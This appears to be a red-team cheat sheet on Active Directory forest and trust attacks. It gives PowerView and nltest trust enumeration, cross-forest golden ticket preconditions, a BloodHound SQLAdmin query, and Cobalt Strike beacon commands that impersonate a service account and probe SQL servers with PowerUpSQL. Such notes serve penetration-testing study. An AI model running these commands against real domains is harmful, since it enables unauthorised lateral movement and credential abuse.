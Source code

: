 ### Forests and Trusts

#### Enumeration

```
# enumerate
nltest /trusted_domains

([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()

Get-DomainTrust -API

Get-DomainTrust -NET

Get-DomainTrust

# users
Get-DomainUser -Domain corp1.com
```

Map forest trusts

```
# c#
([System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()).GetAllTrustRelationships()

# powerview manually
> Get-DomainTrust -Domain corp1.com

# powerview automatically
> Get-DomainTrustMapping

# map foreign users
> Get-DomainUser -Domain corp2.com |select-object -property samaccountname |fl

# get foreign group membership
> Get-DomainForeignGroupMember -Domain corp2.com

# cross forest golden ticket requires
TrustAttributes : TREAT_AS_EXTERNAL,FOREST_TRANSITIVE

# golden ticket also requires group with SID less than 1000 due to SID filtering
```

##### BloodHound

```
MATCH p=(u:User)-[:SQLAdmin]->(c:Computer) RETURN p
```

##### PowerUpSQL

```
# auth
beacon> make_token vault.io\mssql_svc Passw0rd

# import
beacon> powershell-import /tools/PowerUpSQL/PowerUpSQL.ps1

# find
beacon> powershell Get-SQLInstanceDomain

# check access
beacon> powershell Get-SQLInstanceDomain | Get-SQLConnectionTest

# get details
beacon> powershell Get-SQLServerInfo -Instance 'sql01.vault.io,1433'
```